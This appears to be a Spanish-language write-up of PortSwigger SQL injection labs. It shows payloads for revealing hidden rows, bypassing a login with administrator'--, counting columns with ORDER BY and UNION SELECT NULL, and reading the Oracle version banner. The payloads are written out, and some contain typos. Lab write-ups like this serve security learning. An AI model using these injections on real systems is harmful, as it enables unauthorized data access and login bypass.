 ```yaml
---
typora-copy-images-to: ../../myassets/img/labs/
typora-root-url: ../../
layout: post

---
```


## **Obtener datos ocultos**

Accedemos a PortSwigger para realizar el primer laboratorio. En el primero realizaremos una inyección SQL para obtener datos ocultos de una página web.

Vamos a probar la siguiente inyección:

```sql
filter?category=Tech+gifts'--
```

Con el uso de los dos guiones, el rest de consulta que vaya despúes se considera un comentario; lo que acaba de ocurrir es que la base de datos va a ignorar AND released = 1 provocando que se puedan obtener todos los productos de la categoría Tech Gifts sin tener en cuenta la flag *released*.

![](/PePs/myassets/img/labs/1.png)



Vamos a probar otra inyección para qu se muestren TODOS los productos de la página.

```sql
filter?category=Tech+gifts'+OR+1=1--
```

![](/PePs/myassets/img/labs/2.png)



Con esta inyección, habremos solucionado el laboratorio.

![](/PePs/myassets/img/labs/3.png)



## **Subvertir la funcionalidad de la página**

En el siguiente laboratorio, trataremos de logearnos mediante el uso de una inyección SQL. 

En el campo de usuario escribiremos administrator'-- y en el campo de contraseña escribiremos ''

![5](/PePs/myassets/img/labs/5.png)

Nos logeamos y habremos resuelto el laboratorio.

![4](/PePs/myassets/img/labs/4.png)



## **Determinar el número de columnas necesarias en un ataque UNION  de inyección SQL**

Mediante inyeccioens SQL podemos averiguar cuantas columnas consta la base de datos a la cual estamos haciendo el ataque. 

La primera forma es mediante la cláusula ORDER BY e ir incrementando el índice hasta que se produzca un error.

```sql
' ORDER BY 3--
```

![7](/PePs/myassets/img/labs/7.png)



Otro método es especificar vlaores nulos hasta que de error.

```sql
' UNION SELECT NUL,NULL,NULL--
```

![8](/PePs/myassets/img/labs/8.png)



## **Extraer el tipo de base de datos y verisón**

Comprobamos con una consulta básica si podemos extraer información de la base de datos.

```sql
'+UNION+SELECT+'abc'+'def'+FROM+DUAL--
```

![9](/PePs/myassets/img/labs/9.png)



Para poder extraer la versión de la abse de datos ejecutamos la siguiente inyección:

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

![10](/PePs/myassets/img/labs/10.png)



Y obtenemos el siguiente resultado:

![11](/PePs/myassets/img/labs/11.png)